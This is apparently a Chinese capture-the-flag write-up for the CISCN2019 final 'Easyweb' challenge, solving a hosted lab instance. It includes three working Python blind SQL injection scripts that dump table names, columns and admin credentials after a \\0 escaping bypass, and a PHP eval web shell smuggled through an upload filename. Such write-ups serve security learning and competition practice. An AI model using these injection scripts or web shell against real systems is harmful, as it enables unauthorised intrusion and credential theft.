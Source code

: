 # [CISCN2019 总决赛 Day2 Web1]Easyweb 盲注 \\0绕过 文件上传文件名木马

首先开局登入

我们开始目录扫描

扫除 robots.txt



<img src="https://i-blog.csdnimg.cn/blog_migrate/09ab2dd6e54ea6a30755a372e0f6fbca.png" alt="" style="max-height:143px; box-sizing:content-box;" />


现在只有三个文件

最后发现 只有image.php.bak存在



<img src="https://i-blog.csdnimg.cn/blog_migrate/084f2fd5427161c091c657c2dfa708aa.png" alt="" style="max-height:385px; box-sizing:content-box;" />


这里主要的地方是 \\0

因为第一个\会被转义

这里就会变为 \0

表示空白

那我们sql语句就会变为了

```cobol
select * from images where id='\0'
```

但是这里我们不可以使用 \\

因为输入\\

会变为 \

我们是需要空字符

所以我们需要 \\0

绕过

所以最后我们 然后 后面的path 就变为了可控了

```cobol
path=' or 1=1-- +

path=' or 1=2-- +
```

这里显然是盲注了

写个脚本

```cobol
import time
 
import requests
 
baseurl = r"""http://3b01fafd-601d-4401-ab14-0a966f1c0151.node4.buuoj.cn:81/image.php?id=\\0&path="""
flag=''
 
 
for i in range(1000):
    for j in range(127):
        payload = "or 1 = if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{},1))={},1,-1)-- +".format(i,j)
        req=requests.get(url=baseurl+payload)
        if req.status_code == 429:
            time.sleep(0.5)
        if "JFIF" in req.text:
            flag += chr(j)
            print(flag)
```

可以爆出为

```bash
images,users
```

但是这里注意

爆列名的时候 因为 'users' 会给过滤 所以我们要通过16进制来实现

```cobol
users-->0x7573657273
```

```cobol
import time
 
import requests
base_url=r"http://3b01fafd-601d-4401-ab14-0a966f1c0151.node4.buuoj.cn:81/image.php?id=\\0&path="
data=''
#下面的payload需要使用 > 号 而不是 =
payload="or 1 = if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name=0x7573657273),{},1))>{},1,-1)-- +"
for i in range(1,10000):
    low = 32
    high = 128
    mid =(low + high) // 2
    while(low < high):
        payload1=payload.format(i,mid)
        r = requests.get(url=base_url+payload1)
        if "JFIF" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 132):
        break
    data+=chr(mid)
    print(data)
```

上面是二分法 快点

```undefined
username,password
```

继续爆数据

```cobol
import time
 
import requests
base_url=r"http://3b01fafd-601d-4401-ab14-0a966f1c0151.node4.buuoj.cn:81/image.php?id=\\0&path="
data=''
#下面的payload需要使用 > 号 而不是 =
payload="or 1 = if(ascii(substr((select group_concat(username,password)from users),{},1))>{},1,-1)-- +"
for i in range(1,10000):
    low = 32
    high = 128
    mid =(low + high) // 2
    while(low < high):
        payload1=payload.format(i,mid)
        r = requests.get(url=base_url+payload1)
        if "JFIF" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 132):
        break
    data+=chr(mid)
    print(data)
```

```cobol
admin
 
4548f7af4fe91b7ff349
```

然后我们登录



<img src="https://i-blog.csdnimg.cn/blog_migrate/07571bf7fafb8b70580e35fb1c47fdde.png" alt="" style="max-height:231px; box-sizing:content-box;" />


随便传递一个



<img src="https://i-blog.csdnimg.cn/blog_migrate/211e46e4d79710066b18b814a3d0ce59.png" alt="" style="max-height:86px; box-sizing:content-box;" />


成功了 我们直接上传木马吧



<img src="https://i-blog.csdnimg.cn/blog_migrate/036c801437d7c89b5ca5da4c76b5ad07.png" alt="" style="max-height:462px; box-sizing:content-box;" />


成功了

但是去访问发现不是



<img src="https://i-blog.csdnimg.cn/blog_migrate/bece1905737315aec36925cd98832226.png" alt="" style="max-height:173px; box-sizing:content-box;" />


这里是文件名 那我们从文件名注入吧

```cobol
Content-Disposition: form-data; name="file"; filename="1.jpg"
 
 
修改 filename为木马
 
Content-Disposition: form-data; name="file"; filename="<?php @eval($_POST['hack']); ?>"
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7292561c60baae93dce0bddf5aedcd07.png" alt="" style="max-height:362px; box-sizing:content-box;" />


过滤了 换短标签看看

```kotlin
Content-Disposition: form-data; name="file"; filename="<?= @eval($_POST['hack']); ?>"
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/9521fdd6b1a8d3fbb53587545d30365b.png" alt="" style="max-height:198px; box-sizing:content-box;" />


访问一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/783e254073043230a79f1ca33e074e08.png" alt="" style="max-height:224px; box-sizing:content-box;" />


成功了 链接一下